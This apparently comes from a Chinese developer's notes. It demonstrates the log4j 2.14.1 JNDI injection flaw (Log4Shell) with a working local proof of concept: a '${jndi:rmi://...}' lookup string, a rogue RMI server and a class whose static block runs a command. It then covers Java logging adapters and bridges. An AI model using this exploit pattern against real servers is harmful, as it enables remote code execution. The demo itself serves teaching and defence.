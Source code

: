 ### log4j漏洞演示

```xml
<!--使用log4j日志; <=2.14.1; >= 2.15.0修复-->
<dependency>
    <groupId>org.apache.logging.log4j</groupId>
    <artifactId>log4j-api</artifactId>
    <version>2.14.1</version>
</dependency>
<dependency>
    <groupId>org.apache.logging.log4j</groupId>
    <artifactId>log4j-core</artifactId>
    <version>2.14.1</version>
</dependency>
```

```xml
<!--log4j2.xml-->
<?xml version="1.0" encoding="UTF-8"?>
<Configuration status="WARN">
	<!--全局参数-->
	<Properties>
		<Property name="pattern">log4j2: %d{yyyy-MM-dd HH:mm:ss} %5p [%t] - %m%n</Property>
	</Properties>
	<Loggers>
		<Root level="INFO">
			<AppenderRef ref="console"/>
		</Root>
	</Loggers>
	<Appenders>
		<!-- 定义输出到控制台 -->
		<Console name="console" target="SYSTEM_OUT" follow="true">
			<!--控制台只输出level及以上级别的信息-->
			<ThresholdFilter level="INFO" onMatch="ACCEPT" onMismatch="DENY"/>
			<PatternLayout>
				<Pattern>${pattern}</Pattern>
			</PatternLayout>
		</Console>
	</Appenders>
</Configuration>
```

```properties
# log4j.properties
log4j.rootLogger=DEBUG, stdout
log4j.appender.stdout.Target = System.out
log4j.appender.stdout=org.apache.log4j.ConsoleAppender
log4j.appender.stdout.layout=org.apache.log4j.PatternLayout
log4j.appender.stdout.layout.ConversionPattern=%5p [%t] - %m%n
```

```java
package cn.qingweico;

import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;

/**
 * -Dlog4j2.formatMsgNoLookups=true
 * @author zqw
 * @date 2022/3/13
 */
public class LogTest {
    private static final Logger logger = LogManager.getLogger("log4j");
    public static void main(String[] args) {
        String username="${java:os}";
        logger.info("Hello, {}",username);
    }
}

```

```xml
<!--使用slf4j日志-->
<!--slf4j适配log4j2-->
<dependency>
    <groupId>org.apache.logging.log4j</groupId>
    <artifactId>log4j-slf4j-impl</artifactId>
    <version>2.12.1</version>
</dependency>
```

```java
package cn.qingweico;

import org.slf4j.Logger;
import org.slf4j.LoggerFactory;

/**
 * @author zqw
 * @date 2022/3/13
 */
public class LogTest {
    private static final Logger logger = LoggerFactory.getLogger("slf4j");
    public static void main(String[] args) {
        String username="${jndi:rmi://127.0.0.1:8080/lookup}";
        logger.info("Hello, {}",username);
    }
}
```

```java
package cn.qingweico;

import java.io.IOException;

/**
 * @author zqw
 * @date 2022/3/13
 */
public class Look {
   static {
      try {
         Runtime.getRuntime().exec("calc");
      } catch (IOException e) {
         e.printStackTrace();
      }
   }
}
```

```java
package cn.qingweico;


import com.sun.jndi.rmi.registry.ReferenceWrapper;

import javax.naming.NamingException;
import javax.naming.Reference;
import java.rmi.AlreadyBoundException;
import java.rmi.RemoteException;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

/**
 * @author zqw
 * @date 2022/3/13
 */
public class RmiServer {
   public static void main(String[] args) throws NamingException, RemoteException, AlreadyBoundException {
      Registry registry = LocateRegistry.createRegistry(8080);
      registry.bind("lookup", new ReferenceWrapper(new Reference(
              null, "cn.qingweico.Look", null
      )));
   }
}
```

### 日志适配和桥接

```xml
<!--jcl -->
<dependency>
    <groupId>commons-logging</groupId>
    <artifactId>commons-logging</artifactId>
    <version>1.2</version>
</dependency>
<!--log4j-->
<dependency>
    <groupId>log4j</groupId>
    <artifactId>log4j</artifactId>
    <version>1.2.17</version>
</dependency>
<!--slf4j -->
<dependency>
    <groupId>org.slf4j</groupId>
    <artifactId>slf4j-api</artifactId>
    <version>1.7.25</version>
</dependency>
```

```xml
<!--slf4j适配log4j1.x -->
<dependency>
    <groupId>org.slf4j</groupId>
    <artifactId>slf4j-log4j12</artifactId>
    <version>1.7.25</version>
</dependency>
<!--slf4j适配log4j2-->
<dependency>
    <groupId>org.apache.logging.log4j</groupId>
    <artifactId>log4j-slf4j-impl</artifactId>
    <version>2.12.1</version>
</dependency>
<!--slf4j适配jcl-->
<dependency>
    <groupId>org.slf4j</groupId>
    <artifactId>slf4j-jcl</artifactId>
    <version>1.7.25</version>
</dependency>
<!--log4j 桥接到 slf4j-->
<dependency>
    <groupId>org.slf4j</groupId>
    <artifactId>log4j-over-slf4j</artifactId>
    <version>1.7.25</version>
</dependency>
```

| 名称              | jar包                                         | 描述                             |
| ----------------- | --------------------------------------------- | -------------------------------- |
| log4j             | log4j-xxx.jar                                 | 早期常用日志组件                 |
| logback           | logback-core、logback-classic、logback-access | 一套日志组件的实现 性能优于log4j |
| log4j2            | log4j、log4-api 、log4j-core                  | apache 开发的一款log4j的升级产品 |
| java.util.logging | jdk                                           | Java 1.4 以来的官方日志实现      |

适配器

![Java日志 (1)](https://cdn.qingweico.cn/blog/Java%E6%97%A5%E5%BF%97%20(1).png)

桥接器

![Java日志](https://cdn.qingweico.cn/blog/Java%E6%97%A5%E5%BF%97.png)